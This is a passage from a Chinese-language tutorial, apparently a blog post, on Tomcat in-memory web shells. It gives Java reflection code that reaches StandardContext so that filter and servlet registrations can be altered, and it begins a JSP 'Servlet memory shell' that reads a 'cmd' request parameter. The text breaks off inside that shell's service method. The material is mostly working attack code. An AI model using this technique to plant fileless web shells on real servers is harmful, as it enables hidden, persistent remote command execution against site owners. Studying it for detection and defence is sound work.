 ApplicationContext中可以获取到`StandardContext`

![image-20210926160056950](初探内存马/image-20210926160056950.png)

实现代码:

```java
	ServletContext servletContext = request.getSession().getServletContext();
    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
```

然后通过反射修改filterConfigs,filterMap等成员就可以了。可以参考一下jsp文件中的代码。

# Servlet内存马



ServletShell.jsp

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import = "org.apache.catalina.core.ApplicationContext"%>
<%@ page import = "org.apache.catalina.core.StandardContext"%>
<%@ page import = "javax.servlet.*"%>
<%@ page import = "java.io.IOException"%>
<%@ page import = "java.lang.reflect.Field"%>


<%
    class ServletDemo implements Servlet{
        @Override
        public void init(ServletConfig config) throws ServletException {}
        @Override
        public String getServletInfo() {return null;}
        @Override
        public void destroy() {}    public ServletConfig getServletConfig() {return null;}

        @Override
        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd");
            if (cmd != null) {
```